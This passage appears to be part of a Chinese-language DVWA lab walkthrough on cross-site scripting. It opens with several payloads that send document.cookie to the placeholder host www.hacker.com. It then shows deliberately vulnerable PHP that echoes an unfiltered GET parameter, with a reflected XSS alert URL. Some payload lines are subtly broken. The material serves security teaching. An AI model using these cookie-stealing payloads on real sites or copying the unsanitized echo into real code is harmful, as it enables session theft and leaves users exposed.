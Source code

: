 ```html
<script>document.location="http://www.hacker.com/cookie.php?cookie="+document.cookies</script>
<script>new Image().src="http://www.hacker.com/cookie.php?cookie="+document.cookie;</script>
<img src="http://www.hacker.com/cookie.php?cookie='+document.cookie"></img>
<iframe src="http://www.hacker.com/cookie.php?cookie='document.cookie"></iframe>
<script>new Image().src="http://www.hacker.com/cookie.php?cookie='+document.cookie";
img.width = 0;
img.height = 0;
</script>
```

## 反射型 XSS (XSS reflected)

搜索框，用户提交恶意代码被执行

- low security

  ```php
  <?php
  
  if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
  
   $isempty = true;
  
  } else {
          
   echo '<pre>';
   echo 'Hello ' . $_GET['name'];
   echo '</pre>';
      
  }
  
  ?>
  ```

  - 代码直接引用了 name 参数，并没有任何的过滤和检查

  - 手工 XSS：用户访问网页中的 XSS 链接，服务器接受并返回，用户执行反射回来的代码并解析执行

  - 首先在输入框中输入`<script>alert('xss')</script>`，然后把此时的 URL(`http://192.168.50.129/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%27xss+attack%27%29%3C%2Fscript%3E#`)给任何一个机器，该机器点开链接都能触发 XSS 攻击

    ```bash
    弹窗警告；页面重定向；...
    ```

- medium security

  ```php
  <?php
  
  if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
  
   $isempty = true;
  
  } else {
  
   echo '<pre>';
   echo 'Hello ' . str_replace('<script>', '', $_GET['name']);
   echo '</pre>'; 
  
  }
  
  ?>
  ```
